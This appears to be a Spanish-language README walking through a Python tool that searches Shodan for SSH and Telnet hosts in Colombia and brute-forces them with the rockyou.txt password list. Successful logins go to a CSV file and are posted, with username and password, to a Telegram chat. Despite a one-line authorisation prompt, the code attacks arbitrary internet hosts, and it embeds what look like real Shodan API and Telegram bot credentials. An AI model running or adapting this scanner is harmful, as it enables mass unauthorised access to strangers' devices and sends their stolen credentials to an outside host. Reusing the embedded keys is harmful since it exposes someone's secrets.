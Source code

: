 ## **1. Importación de Módulos**
```python
import shodan
import paramiko
import requests
import csv
import socket
import subprocess
import time
from concurrent.futures import ThreadPoolExecutor
import threading
import logging
```
Aquí se importan las librerías necesarias:
- `shodan`: Para buscar dispositivos vulnerables en Shodan.
- `paramiko`: Para conexiones SSH.
- `requests`: Para enviar mensajes por Telegram.
- `csv`: Para almacenar accesos exitosos en un archivo.
- `socket`: Para verificar si los puertos están abiertos.
- `subprocess`: Para ejecutar comandos en el sistema.
- `time`: Para pausas y evitar bloqueos por demasiadas solicitudes.
- `concurrent.futures.ThreadPoolExecutor`: Para ejecutar pruebas en paralelo.
- `threading`: Para el control de acceso a variables compartidas.
- `logging`: Para registrar errores y eventos importantes.

---

## **2. Advertencia Legal y Confirmación**
```python
print("\u26a0\ufe0f ADVERTENCIA: Esta herramienta es solo para fines educativos y debe ser utilizada con autorización.")
confirmacion = input("¿Tienes autorización para auditar estas IPs? (sí/no): ").strip().lower()
if confirmacion != "si":
    print("\ud83d\udeab Operación cancelada por el usuario.")
    exit()
```
- Se muestra una advertencia de uso legal.
- Se pide confirmación al usuario. Si responde distinto de "sí", se cancela la ejecución.

---

## **3. Configuración de Logging**
```python
logging.basicConfig(filename="errors.log", level=logging.ERROR)
logging.basicConfig(filename="telnet_auditoria.log", level=logging.INFO, format="%(asctime)s - %(message)s")
```
- Se configuran logs para registrar errores y eventos.

---

## **4. Configuración de la API de Shodan y Telegram**
```python
API_KEY = "OscSR1MKM2fICcN5KgVBBJIGnXwrIt8z"
TELEGRAM_BOT_TOKEN = "7720656194:AAGRh7hySVMNN36O2IcTl6cJa5vNa-0Sbws"
TELEGRAM_CHAT_ID = "1574894198"
```
- Se definen las credenciales de Shodan y Telegram.
- Si faltan, el programa se detiene.

---

## **5. Variables de Estadísticas**
```python
total_intentos = 0
total_exitosos = 0
total_intentos_telnet = 0
total_exitosos_telnet = 0
```
- Se inicializan variables para contar intentos y éxitos en SSH y Telnet.

---

## **6. Búsqueda de IPs con SSH y Telnet en Shodan**
```python
def search_shodan(query):
    api = shodan.Shodan(API_KEY)
    try:
        result = api.search(query)
        return [service['ip_str'] for service in result['matches']]
    except shodan.APIError as e:
        logging.error(f"Error en Shodan: {e}")
        return []
```
- Se consulta la API de Shodan con una búsqueda específica.
- Se extraen las IPs encontradas.
- Si hay error, se registra en el log.

---

## **7. Envío de Notificaciones por Telegram**
```python
def send_telegram_message(message):
    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
    payload = {"chat_id": TELEGRAM_CHAT_ID, "text": message, "parse_mode": "Markdown"}
    try:
        requests.post(url, data=payload)
    except Exception as e:
        logging.error(f"Error enviando mensaje de Telegram: {e}")
```
- Envía mensajes de estado y alertas a un chat de Telegram.

---

## **8. Verificación de Credenciales SSH**
```python
def check_ssh(ip, username, password):
    global total_intentos, total_exitosos
    with lock:
        total_intentos += 1
    
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        client.connect(ip, username=username, password=password, timeout=10, banner_timeout=10)
        
        print(f"\u2705 Acceso exitoso: {ip} - {username}:{password}")

        # Guardar en CSV
        with open("C:/Users/Julian/Desktop/accesos_exitosos.csv", "a", newline="") as file:
            writer = csv.writer(file)
            writer.writerow([ip, username, password])

        # Notificación por Telegram
        send_telegram_message(f"\ud83d\ude80 *Acceso exitoso en* `{ip}`\n\ud83d\udc64 Usuario: `{username}`\n\ud83d\udd11 Contraseña: `{password}`")
        total_exitosos += 1
        client.close()
```
- Prueba credenciales SSH en una IP dada.
- Si la autenticación es exitosa:
  - Se imprime el acceso.
  - Se guarda en CSV.
  - Se envía alerta por Telegram.

---

## **9. Verificación de Credenciales Telnet**
```python
def check_telnet(ip, username, password):
    global total_intentos_telnet, total_exitosos_telnet
    with lock:
        total_intentos_telnet += 1

    try:
        tn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        tn.settimeout(10)
        tn.connect((ip, 23))  

        time.sleep(2)
        response = tn.recv(4096).decode(errors="ignore")  

        if "login:" in response.lower():
            tn.sendall(username.encode() + b"\r\n")  

        time.sleep(1)
        response = tn.recv(1024).decode(errors="ignore")

        if "password:" in response.lower():
            tn.sendall(password.encode() + b"\r\n")  

        time.sleep(1)
        response = tn.recv(1024).decode(errors="ignore")

        if "incorrect" not in response.lower():
            send_telegram_message(f"\ud83d\ude80 *Acceso exitoso en Telnet* `{ip}`\n\ud83d\udc64 Usuario: `{username}`\n\ud83d\udd11 Contraseña: `{password}`")
            total_exitosos_telnet += 1
```
- Similar a SSH, pero para Telnet.
- Si se logra acceso, se envía notificación.

---

## **10. Verificación de Puertos Abiertos**
```python
def is_ssh_open(ip):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(5)
    result = sock.connect_ex((ip, 22))
    sock.close()
    return result == 0
```
- Comprueba si el puerto 22 (SSH) está abierto en una IP.

---
## **11. Carga de Contraseñas de RockYou**
```python
def load_passwords(file_path):
    try:
        with open(file_path, "r", encoding="latin-1") as f:
            return [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        logging.error(f"No se encontró el archivo {file_path}")
        return []
```
- Carga contraseñas desde el diccionario rockyou.txt.

---
## **12. Ejecución de Auditoría**
```python
ssh_ips = search_shodan("port:22 country:CO")[:NUM_IPS_A_ESCANEAR]
telnet_ips = search_shodan("port:23 country:CO")[:NUM_IPS_A_ESCANEAR]

ssh_ips = [ip for ip in ssh_ips if is_ssh_open(ip)]
telnet_ips = [ip for ip in telnet_ips if is_telnet_open(ip)]

```
- Se buscan IPs en Shodan y se filtran por puertos abiertos.
```python
with ThreadPoolExecutor(max_workers=5) as executor:
    for ip in ssh_ips:
        for username, pass_list in credentials.items():
            for password in pass_list:
                executor.submit(check_ssh, ip, username, password)


```
- Ejecuta auditorías en paralelo para SSH y Telnet.
---
## **13. Resumen Final**
```python
send_telegram_message(f"📊 *Resumen de auditoría SSH*:\n🔹 Total intentos: `{total_intentos}`\n✅ Accesos exitosos: `{total_exitosos}`")
send_telegram_message(f"📊 *Resumen de auditoría TELNET*:\n🔹 Total intentos: `{total_intentos_telnet}`\n✅ Accesos exitosos: `{total_exitosos_telnet}`")

```
- Envía un resumen de la auditoría a Telegram.

---

